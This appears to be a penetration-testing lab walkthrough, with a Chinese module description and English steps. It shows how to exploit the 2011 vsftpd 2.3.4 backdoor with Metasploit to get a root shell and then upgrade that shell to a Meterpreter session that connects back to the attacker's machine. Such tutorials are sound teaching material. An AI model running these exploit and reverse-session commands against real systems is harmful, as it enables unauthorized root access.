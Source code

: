 该模块利用添加到 VSFTPD 下载存档的恶意后门。根据最新的可用信息，此后门程序于 2011 年 6 月 30 日至 2011 年 7 月 1 日期间被引入 vsftpd-2.3.4.tar.gz 存档。该后门已于 2011 年 7 月 3 日删除。

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
info
run
```

We get a command shell session opened. And our current privileges are root, so that means we have the highest privileges available on a Linux system, which consequently means we don't need to perform any privilege escalation in this case. 

That is a command session. 

Open up a bash terminal on the target system.

```
/bin/bash -i
```

Now we have access to the target system through a command shell. We can also upgrade this command shell to a Meterpreter session by putting this session into the background. That can be done by utilizing the keyboard combination `Ctrl+Z`. That will prompt you to put it in the background.

List out our sessions.

```
sessions
```

Search for the `shell_to_meterpreter` module, which will upgrade our current command shell session to a Meterpreter session.

```
search shell_to_meterpreter
```

This is a post-exploitation module. It requires us to already have access to the target system, and we should already have an active session on the target system, which we do.

```
use post/multi/manage/shell_to_meterpreter
show options
```

`LHOST`: the IP address of the Kali Linux system, which is the system that we're currently working on. That is going to be used to receive the connection from the payload. We can specify the interface name instead of looking up the IP address ourselves.

`LPORT`: the port that for the payload to connect to.

Set the session ID to session 1.

```
set LHOST eth1
set SESSION 1
run
```

